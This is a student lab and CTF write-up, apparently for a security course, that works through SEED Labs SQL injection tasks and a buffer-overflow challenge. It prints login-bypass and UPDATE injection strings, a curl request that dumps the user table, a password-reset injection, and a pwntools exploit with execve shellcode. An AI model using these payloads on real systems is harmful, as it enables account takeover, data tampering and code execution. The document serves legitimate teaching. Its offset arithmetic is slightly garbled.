 # Trabalho realizado na Semana #7

## Task 1

After the database was loaded, we ran a simple query on the `credential` table to match the name Alice.


```bash
mysql> select * from credential where Name = "Alice";
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
1 row in set (0.00 sec)
```

## Task 2

### Task 2.1

To login as admin, we took advantage of the sql statement by commenting out the password verification part.

<p align="center">
    <img src="screenshots/admin_login.jpeg">
</p>

This will query the db for users with name admin, thus providing us with the admin page:

<p align="center">
    <img src="screenshots/admin_page.jpeg">
</p>

### Task 2.2

For this task, we simply had to convert our query to a url, like this:

```bash
[11/09/22]seed@VM:~$ curl "www.seed-server.com/unsafe_home.php?username=admin%27%3B+--+&Password=11"
<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!--
SEED Lab: SQL Injection Education Web plateform
Enhancement Version 1
Date: 12th April 2018
Developer: Kuber Kohli

Update: Implemented the new bootsrap design. Implemented a new Navbar at the top with two menu options for Home and edit profile, with a button to
logout. The profile details fetched will be displayed using the table class of bootstrap with a dark table head theme.

NOTE: please note that the navbar items should appear only for users and the page with error login message should not have any of these items at
all. Therefore the navbar tag starts before the php tag but it end within the php script adding items as required.
-->

<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ><img src="seed_logo.png" style="height: 40px; width: 200px;" alt="SEEDLabs"></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>
```

### Task 2.3
As was expected, we were unable to run two queries. This happens because there's already a countermeasure against SQL Injection in the *unsafe_home.php* file. The function *query* of *mysqli* only allows for one query at a time, explaining why it raises an error when we inject two statements.

```php
$conn = getDB();
      // Sql query to authenticate the user
      $sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
      FROM credential
      WHERE name= '$input_uname' and Password='$hashed_pwd'";
      if (!$result = $conn->query($sql)) {
        echo "</div>";
        echo "</nav>";
        echo "<div class='container text-center'>";
        die('There was an error running the query [' . $conn->error . ']\n');
        echo "</div>";
      }
```

### Task 3.1
We can alter Alice's salary injecting the following line in the first field (for example)

```SQL
' , Salary='20000000
```
The result is the following:

<p align="center">
    <img src="screenshots/update_salary.png">
</p>


### Task 3.2

To alter Boby's salary we can inject the following line in one of the fields from Alice's 'edit profile' page.

```SQL
', Salary='2' WHERE Name='Boby';-- 
```

When we access Boby's profile, the result is the following:

<p align="center">
    <img src="screenshots/update_bobby_salary.png">
</p>

### Task 3.3

In this task we'll try to change Boby's password to '111'. To do that we need to find out what's the value when we encode it using the *sha1( )* function, which is *6216f8a75fd5bb3d5f22b6f9958cdede3fc086c2*

This hashed value is what will be saved in the database.

In Alice's 'edit profile' page, we inject the following line in one of the fields. This will alter Bobby's password to *111*

```SQL
', Password='6216f8a75fd5bb3d5f22b6f9958cdede3fc086c2' WHERE Name='Boby';-- 
```

Then we try to login to Boby's account using the new password.

<p align="center">
    <img src="screenshots/login_boby.png">
</p>

And just like we wanted to, we have gained access to Boby's account using a password defined by us.

<p align="center">
    <img src="screenshots/boby_profile.png">
</p>

# Week 8 CTF

## Challenge 1

To login as admin, we used the `admin'; -- ` string on the user field. 
Like in task 2.1, it allows the password verification to be ignored and login as admin.

## Challenge 2

Examining the program code, we quickly noticed a vulnerability in a `gets()` call.
This meant we could explore it by performing a buffer overflow.

However, by running `checksec`, we noticed that the PIE protection was active.
This conveys that the buffer and the base pointer would be at random addresses every execution.
Nevertheless, the program was kind enough to give us the address of the buffer.
Even though the latter is randomized, the relative position between the buffer and base pointer stay the same.

To get this offset, we used `gdb`:

```bash
gdb-peda$ p &buffer
$1 = (char (*)[100]) 0xffffcdf0
gdb-peda$ p $ebp
$2 = (void *) 0xffffce58
``` 

Thus follows:

```
offset = 0xffffcdf0 - 0xffffce58 = 104
```
> **_NOTE:_**  Because the offset is calculated with the $ebp, we will need to sum an extra 4 bytes in order to reach the return address.


In sum, we had all the information needed to create the exploit. 
The final script looks like this:

```py
p.recvuntil(b"buffer is ")
buf = int(p.recvline()[:-2], 16)

shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

content = bytearray(0x90 for i in range(300)) 

start = 300 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

ret    = buf + 150 #putting it after the offset
offset = 104 + 4

L = 4
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 

p.recvuntil(b"input:")
p.sendline(content)
p.interactive()
```